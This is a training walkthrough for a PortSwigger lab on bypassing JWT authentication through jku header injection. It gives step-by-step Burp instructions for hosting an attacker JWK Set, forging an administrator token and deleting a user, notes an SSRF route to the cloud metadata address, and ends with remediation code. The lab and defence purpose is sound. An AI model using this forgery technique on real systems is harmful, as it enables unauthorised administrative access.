

---

**Difficulty:** 🟡 Practitioner

**Goal:**

- 🔑 Log in as `wiener` / `peter` — generate a new RSA key pair in **JWT Editor Keys**
- 🌐 On the **exploit server**, host your public key in JWK Set format — store it — copy the exploit server URL
- ✏️ In Burp Repeater → **JSON Web Token** tab — update `kid` to match your key — add `jku` pointing to your exploit server URL — change `sub` to `"administrator"` — click **Sign** → **Don't modify header** → OK
- 🗺️ Send `GET /admin` — the server fetches YOUR public key from YOUR URL — verifies the signature — admin panel loads
- 🗑️ Delete the user `carlos` → lab solved!

---

## 🧠 **Concept Recap**

> **JWT authentication bypass via `jku` header injection** exploits a server that supports the `jku` (JWK Set URL) header parameter — a field that tells the server where to fetch the public key for signature verification. Instead of embedding the key in the token like Lab 4's `jwk` attack, `jku` makes the server perform an outbound HTTP request to retrieve it. The flaw: the server fetches from any URL the token specifies without checking whether the domain is trusted. The attacker hosts their own public key on the exploit server, points `jku` at it, signs the token with the matching private key, and the server fetches and uses the attacker's key to verify — succeeding perfectly.

### 📊 **Lab 4 (`jwk`) vs Lab 5 (`jku`) — Two Header Injection Variants**

||**Lab 4 — jwk injection**|**Lab 5 — jku injection (this lab)**|
|---|---|---|
|**How key is supplied**|Embedded directly in JWT header|URL in JWT header — server fetches it|
|**Token size**|Large — full public key inside token|Small — just a URL|
|**Server makes HTTP request?**|❌ No|✅ Yes — to attacker-controlled URL|
|**Infrastructure needed**|None — key is in the token|Exploit server to host the JWK Set|
|**Attack tool**|JWT Editor Attack → Embedded JWK|Manual header edit + JWT Editor Sign|
|**Root cause**|Server trusts embedded key|Server fetches from untrusted URL|

```js
jwk vs jku — the same core flaw, different delivery:
  → jwk: "here is my public key, please use it" — key travels with the token
  → jku: "go fetch my public key from this URL"  — server goes to get it

Both exploit the same trust failure:
  → The server lets the token dictate which key to use for verification
  → Whether the key is inline or at a URL, the attacker controls it
  → The fix is identical: ignore token-supplied key sources entirely
```

**The full attack flow:**

```js
Log in as wiener → GET /my-account → Send to Repeater
         ↓
JWT Editor Keys → Generate RSA key pair → save
         ↓
Exploit server → Body: empty JWK Set { "keys": [] }
JWT Editor Keys → right-click key → Copy Public Key as JWK
Paste into keys array → Store
  → Public key now hosted at: https://exploit-xxx.exploit-server.net/exploit
         ↓
Repeater → JSON Web Token tab:
  Header: kid → your key's kid value
          jku → https://exploit-xxx.exploit-server.net/exploit
  Payload: sub → "administrator"
  Sign → select RSA key → Don't modify header → OK
         ↓
Server receives JWT → reads jku → makes HTTP GET to exploit server
  → Fetches JWK Set → finds key matching kid → uses it to verify signature
  → Signature matches (your private key signed it) ✅
  → sub: "administrator" → admin access granted ✅
         ↓
Delete carlos → lab solved ✅
```

---
---

## 🛠️ **Step-by-Step Attack**

---

### 🔧 **Step 1 — Install JWT Editor Extension**

1. 🖱️ In Burp → **Extensions** → **BApp Store**
2. 🖱️ Search **JWT Editor** → click **Install**

```js
Needed for:
  → JWT Editor Keys tab: generate and store the RSA key pair
  → JSON Web Token tab in Repeater: edit header/payload fields and Sign the token
  → Unlike Lab 4, there's no one-click Attack button here — we manually
    edit the header to add jku, then use Sign to produce the valid signature
```

---

### 🔧 **Step 2 — Log In and Capture the JWT**

1. 🌐 Click **"Access the lab"**
2. 🔌 Ensure **Burp Suite is running** and proxying traffic
3. 🖱️ Log in with `wiener` / `peter`
4. 🖱️ In Burp → **Proxy → HTTP history** → find the post-login `GET /my-account`
5. 🖱️ Right-click → **"Send to Repeater"**

```js
Check the JWT in Inspector:
  Header:  { "alg": "RS256", "kid": "server-key-id", "typ": "JWT" }
  Payload: { "sub": "wiener", "exp": ... }

Notice the kid field — the server uses this to look up the right key.
In this attack we'll replace kid with our own key's ID and add jku
to tell the server where to fetch the corresponding public key.
```

---

### 🔧 **Step 3 — Confirm You're Blocked from /admin**

1. 🖱️ In Repeater, change the path to `/admin` → click **"Send"**

```js
Expected result:
  → "Admin interface only accessible if logged in as the administrator"
  → Blocked — need sub: "administrator" with a valid RS256 signature
```

---

### 🔧 **Step 4 — Generate a New RSA Key Pair**

1. 🖱️ In Burp → **JWT Editor Keys** tab (main Burp menu bar)
2. 🖱️ Click **"New RSA Key"** → click **"Generate"**
3. 🖱️ Click **"OK"** to save

```js
Note your key's kid value — you'll need it in Step 7.
It looks like: "893d8f0b-061f-42c2-a4aa-5056e12b8ae7"

This key pair gives you:
  → Private key: used to sign the forged JWT (stays in Burp)
  → Public key:  will be hosted on the exploit server for the target to fetch
```

---

### 🔧 **Step 5 — Set Up the Exploit Server with an Empty JWK Set**

1. 🖱️ On the lab page, click **"Go to exploit server"**
2. 🖱️ In the **Body** section, replace all existing content with:

```json
{
    "keys": [

    ]
}
```

3. 🖱️ Click **"Store"** — don't close this tab

```js
Why start with an empty keys array?
  → The JWK Set format requires a "keys" array
  → We'll paste our public key into it in the next step
  → Storing it first confirms the exploit server is serving valid JSON
```

---

### 🔧 **Step 6 — Copy Your Public Key and Host It**

1. 🖱️ Back in Burp → **JWT Editor Keys** tab
2. 🖱️ Right-click your RSA key entry → **"Copy Public Key as JWK"**

```js
The clipboard now contains your public key in JWK format:
{
  "kty": "RSA",
  "e": "AQAB",
  "kid": "893d8f0b-061f-42c2-a4aa-5056e12b8ae7",
  "n": "yy1wpYmffgXBxhAUJzHHocCuJolwDqql75ZWuCQ_cb33K2vh9m..."
}
```

3. 🖱️ Go back to the exploit server → paste the JWK inside the `keys` array:

```json
{
    "keys": [
        {
            "kty": "RSA",
            "e": "AQAB",
            "kid": "893d8f0b-061f-42c2-a4aa-5056e12b8ae7",
            "n": "yy1wpYmffgXBxhAUJzHHocCuJolwDqql75ZWuCQ_cb33K2vh9m..."
        }
    ]
}
```

4. 🖱️ Click **"Store"**
5. 🖱️ Copy the exploit server URL — it looks like:

```js
https://exploit-0abc123def456.exploit-server.net/exploit
```

```js
Your public key is now publicly accessible at that URL in valid JWK Set format.
When the target server fetches that URL, it will find a keys array containing
your public key. It will match it against the kid in the JWT header and use it
to verify the signature — which you signed with the matching private key.
```

---

### 🔧 **Step 7 — Modify the JWT Header**

1. 🖱️ Back in Repeater → click the **JSON Web Token** tab
2. 🖱️ In the **Header** section, make two changes:

**Change 1 — Replace `kid` with your key's kid:**

```json
"kid": "893d8f0b-061f-42c2-a4aa-5056e12b8ae7"
```

**Change 2 — Add `jku` pointing to your exploit server:**

```json
"jku": "https://exploit-0abc123def456.exploit-server.net/exploit"
```

The full modified header:

```json
{
  "alg": "RS256",
  "typ": "JWT",
  "kid": "893d8f0b-061f-42c2-a4aa-5056e12b8ae7",
  "jku": "https://exploit-0abc123def456.exploit-server.net/exploit"
}
```

```js
What each field does:
  → kid: tells the server which key in the JWK Set to use for verification
          must match exactly the kid value of the key you hosted
  → jku: tells the server WHERE to fetch the JWK Set
          points to YOUR exploit server — no whitelist → server will fetch it
```

---

### 🔧 **Step 8 — Modify the JWT Payload**

1. 🖱️ In the **Payload** section, change `"sub"` to `"administrator"`:

```json
{
  "sub": "administrator",
  "exp": 1648037164
}
```

---

### 🔧 **Step 9 — Sign the Token**

1. 🖱️ At the bottom of the **JSON Web Token** tab, click **"Sign"**
2. 🖱️ Select the RSA key you generated in Step 4
3. 🖱️ Ensure **"Don't modify header"** is checked ✅
4. 🖱️ Click **"OK"**

```js
"Don't modify header" is critical here:
  → Without it, JWT Editor may overwrite the jku and kid fields you just set
  → With it: header stays exactly as you wrote it — jku and kid preserved
  → JWT Editor only updates the signature section of the cookie

After signing:
  → The token is signed with your RSA private key
  → The header still points jku at your exploit server
  → The header kid matches the key hosted there
  → When the server verifies: fetches JWK Set → finds matching kid →
    verifies signature with that public key → passes ✅
```

---

### 🔧 **Step 10 — Access the Admin Panel**

1. 🖱️ Confirm the path is `/admin` → click **"Send"**

```js
Expected result:
  → 200 OK — admin panel loads ✅

What the server did step by step:
  1. Read JWT header → found jku field
  2. Made HTTP GET request to your exploit server URL
  3. Received the JWK Set you hosted
  4. Read kid from JWT header → found matching key in the JWK Set
  5. Used that public key to verify the JWT signature → matched ✅
  6. Read sub: "administrator" → granted admin access ✅

The server made an outbound request to attacker infrastructure and
used the result to authenticate the attacker's forged token.
```

---

### 🔧 **Step 11 — Delete carlos**

1. 🖱️ In the admin panel response, find the delete endpoint:

```js
/admin/delete?username=carlos
```

2. 🖱️ Update the path in Repeater:

```http
GET /admin/delete?username=carlos HTTP/1.1
Cookie: session=<your-jku-injected-signed-jwt>
```

3. 🖱️ Click **"Send"**

```js
Result:
  → carlos deleted ✅
  → Lab solved! 🎉
```

---

## 🎉 **Lab Solved!**

```
✅ Generated RSA key pair in JWT Editor Keys
✅ Hosted public key in JWK Set on exploit server
✅ JWT header: kid → your key's kid, jku → exploit server URL
✅ Payload: sub → "administrator"
✅ Signed with RSA private key → Don't modify header
✅ Server fetched JWK Set from exploit URL → verified signature → passed
✅ Admin panel loaded → deleted carlos
✅ Lab complete!
```

---

## 🔗 **Complete Attack Chain**

```r
1. Log in as wiener → GET /my-account → Send to Repeater
2. GET /admin → blocked (sub: wiener)
3. JWT Editor Keys → New RSA Key → Generate → OK (note kid value)
4. Exploit server → Body: { "keys": [] } → Store
5. JWT Editor Keys → right-click key → Copy Public Key as JWK
6. Exploit server → paste JWK into keys array → Store → copy URL
7. Repeater → JSON Web Token tab:
   Header: kid → your kid, jku → exploit server URL
   Payload: sub → "administrator"
8. Sign → select RSA key → Don't modify header → OK
9. GET /admin → server fetches JWK Set → verifies → admin panel loads
10. GET /admin/delete?username=carlos → lab solved
```

**Two phases: host the key, then point the token at it. The server does the fetching.**

---

## 🧠 **Deep Understanding**

### How the server processes the `jku` parameter

```js
Server-side flow when it receives a JWT with jku:

  1. Decode header (no verification yet — just base64url decode)
     → Finds: jku = "https://exploit-server.net/exploit"
     → Finds: kid = "893d8f0b-..."

  2. Makes HTTP GET request to the jku URL:
     GET https://exploit-server.net/exploit
     → Receives: { "keys": [ { "kty":"RSA", "kid":"893d8f0b-...", "n":"...", "e":"AQAB" } ] }

  3. Searches the keys array for a key with matching kid:
     → Found: kid "893d8f0b-..." matches

  4. Uses that RSA public key to verify the JWT signature:
     verify_rsa_signature(header + "." + payload, signature, found_public_key)
     → Result: valid ✅  (because you signed with the matching private key)

  5. Trusts the payload claims:
     sub: "administrator" → grants admin access

The server never asked: "Is https://exploit-server.net a trusted domain?"
That missing check is the entire vulnerability.
```

### `jku` vs `jwk` — same root cause, different attack surface

```js
Both attacks share the fundamental flaw:
  → The server lets the token dictate which key to use for verification
  → The key (or key location) is attacker-controlled
  → A correctly verified signature means nothing if the attacker controls the key

jwk (Lab 4):
  → Key travels inline in the token
  → No network request from server
  → Simpler — one token, one request
  → Slightly more detectable: large token size reveals embedded key

jku (Lab 5):
  → Key hosted externally — server makes an outbound request
  → Requires exploit infrastructure (a URL to host the JWK Set)
  → More flexible — key can be updated without changing the token
  → Additional risk: the server's outbound request is itself an SSRF
    → could be pointed at internal URLs: http://169.254.169.254/
      (AWS metadata service), internal APIs, etc.

In real penetration testing, jku is more dangerous because of the SSRF angle —
the key injection is the obvious impact but SSRF is the broader risk.
```

### Why `kid` matching matters

```js
A JWK Set can contain multiple keys (for key rotation):
  {
    "keys": [
      { "kid": "key-2023", "n": "...", ... },
      { "kid": "key-2024", "n": "...", ... }
    ]
  }

The kid in the JWT header tells the server which key in the array to pick:
  JWT header kid: "893d8f0b-..." → server searches keys array for that kid

If the kid in your JWT header doesn't match any kid in the hosted JWK Set:
  → Server can't find the right key → verification fails → 401

That's why Step 7 requires setting kid in the JWT header to EXACTLY match
the kid value of the key you copied into the exploit server's keys array.
Both must be identical — the server uses kid as the lookup index.
```

---

## 🐛 **Troubleshooting**

```js
Problem: GET /admin still returns 403 after signing
→ Verify the jku URL in the JWT header is exactly the exploit server URL
→ Verify the kid in the JWT header matches the kid in the hosted JWK Set exactly
→ Check "Don't modify header" was checked before clicking OK — if unchecked,
  JWT Editor may have overwritten your jku and kid values
→ Re-do Step 7 (header edit) and Step 9 (Sign with Don't modify header)

Problem: Exploit server returns an error instead of the JWK Set
→ Check the JSON in the Body section is valid — no trailing commas, correct brackets
→ The format must be exactly: { "keys": [ { ...your JWK... } ] }
→ Validate the JSON at jsonlint.com before storing

Problem: "Don't modify header" was not checked — jku disappeared
→ Redo the header edit in the JSON Web Token tab (Step 7)
→ Then click Sign again with "Don't modify header" checked this time
→ After signing, verify the header in Inspector still shows jku and kid

Problem: kid mismatch — server can't find the right key
→ The kid value in the JWT header and the kid in the JWK Set must be identical
→ Copy the kid directly from the JWK you hosted — don't retype it manually
→ UUID format is case-sensitive: check for any character differences

Problem: Admin panel loads but delete link for carlos not found
→ Search the response body for "delete" or "carlos" using Ctrl+F
→ Or right-click → Show response in browser to render the full page

Problem: Delete request returns 401 — JWT rejected
→ The modified signed JWT must be carried into the delete request
→ Check the Cookie header contains the jku-injected token, not the original
```

---

## 💬 **In One Line**

🌐 The server fetched verification keys from any URL the JWT's `jku` header specified — so hosting a JWK Set on the exploit server, pointing `jku` at it, and signing with the matching private key gave the server a key it fetched itself, verified itself, and trusted completely. That's **JKU Header Injection** — the server outsourced its key trust to an attacker-controlled URL.

---
---

## 🔒 **How to Fix It**

```js
# Priority 1 — Reject any JWT that contains a jku or jwk header parameter
# The server should determine the verification key independently of the token

def verify_token(token):
    header = jwt.get_unverified_header(token)

    if 'jku' in header:
        raise ValueError("jku header parameter is not accepted")

    if 'jwk' in header:
        raise ValueError("jwk header parameter is not accepted")

    # Use only the server's own trusted key
    return jwt.decode(token, SERVER_PUBLIC_KEY, algorithms=['RS256'])
```

```js
# Priority 2 — If jku must be supported, enforce a strict URL whitelist
# Never fetch from a URL that isn't explicitly pre-approved

ALLOWED_JKU_URLS = {
    'https://auth.yourdomain.com/.well-known/jwks.json',
}

def verify_token_with_jku(token):
    header = jwt.get_unverified_header(token)
    jku = header.get('jku')

    if jku not in ALLOWED_JKU_URLS:          # exact match — no prefix/suffix tricks
        raise ValueError(f"Untrusted jku URL: {jku}")

    jwks = fetch_jwks(jku)                   # safe to fetch — URL is whitelisted
    kid = header.get('kid')
    public_key = find_key_by_kid(jwks, kid)

    return jwt.decode(token, public_key, algorithms=['RS256'])
```

```js
# Priority 3 — Use kid for local key lookup only — never to trigger remote fetches
# kid should be an index into a server-side key store, not a hint for fetching

SERVER_KEYS = {
    'key-2024-01': load_public_key('key_2024_01.pem'),
    'key-2024-07': load_public_key('key_2024_07.pem'),
}

def verify_token(token):
    header = jwt.get_unverified_header(token)
    kid = header.get('kid')

    if kid not in SERVER_KEYS:
        raise ValueError(f"Unknown key ID — not in trusted store: {kid}")

    return jwt.decode(token, SERVER_KEYS[kid], algorithms=['RS256'])
    # jku is completely ignored — kid only maps to local keys
```

```js
# Priority 4 — Verify user role from the database after token verification
# A successful jku bypass still fails if the DB confirms wiener is not an admin

@app.route('/admin')
def admin_panel():
    payload = verify_token(request.cookies.get('session'))
    user = db.get_user(payload['sub'])

    if not user or user.role != 'admin':
        abort(403)   # wiener's DB record says role = "user" → blocked

    return render_admin_panel()
```

---
